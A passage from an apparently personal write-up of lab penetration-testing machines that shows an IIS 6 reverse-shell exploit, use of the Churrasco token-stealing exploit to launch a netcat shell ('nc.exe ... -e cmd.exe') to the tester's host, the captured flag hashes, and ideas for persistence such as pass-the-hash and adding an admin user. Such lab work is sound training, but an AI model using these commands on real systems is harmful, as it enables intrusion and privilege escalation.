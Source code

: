    ```bash
   python ii6revshell.py 10.10.10.14 80 10.10.14.37 8000
   # It took about 10 seconds before the reverse shell triggered
   ```

2. Windows 2003 has a vulnerability allowing the 'Network Service' service account to steal the SYSTEM token and execute commands as this user (CVE 2008-1436).  I used an FTP server on Kali and downloaded the exploit code here (https://github.com/Re4son/Churrasco) and nc.exe onto the target, then used the exploit to initiate a netcat session as the SYSTEM user:

   ```powershell
   churrasco -d "c:\coyote\nc.exe -nv 10.10.14.37 8000 -e cmd.exe"
   ```

   ![image-20201114162810674](.Report.assets/image-20201114162810674.png)

3. This shell would die after a couple of minutes but it stays up long enough to grab the user.txt and root.txt flags.  If I were really attacking this target, I could open port 445 through the firewall, get the admin hash and use PTH to connection, or create an admin user, open the port for RDP and enable it, then RDP to the machine.
   ![image-20201114163008026](.Report.assets/image-20201114163008026.png)
   user.txt: bdff5ec67c3cff017f2bedc146a5d869
   root.txt: 9359e905a2c35f861f6a57cecf28bb7b

### 10.10.10.82 - Silo
